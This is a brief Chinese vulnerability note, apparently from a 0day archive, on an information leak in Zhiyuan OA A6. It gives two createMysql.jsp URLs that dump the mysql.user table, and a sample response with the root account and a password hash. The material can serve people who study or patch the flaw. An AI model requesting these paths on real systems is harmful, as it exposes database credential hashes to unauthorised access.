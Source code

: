 # 致远 OA A6 敏感信息泄露（一）

> 原文：[http://book.iwonder.run/0day/致远 oa/5.html](http://book.iwonder.run/0day/致远 oa/5.html)

## 一、漏洞简介

该漏洞泄露了数据库用户的账号，密码 hash。访问该文件直接执行了 Select * from mysql.user;并回显

## 二、漏洞影响

致远 OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/createMysql.jsp

http://www.0-sec.org/yyoa/ext/createMysql.jsp 
```

回显内容：

```
root

*1532B21FE550E115F113DAA9A26D0EEEEF8DEDC7 
```

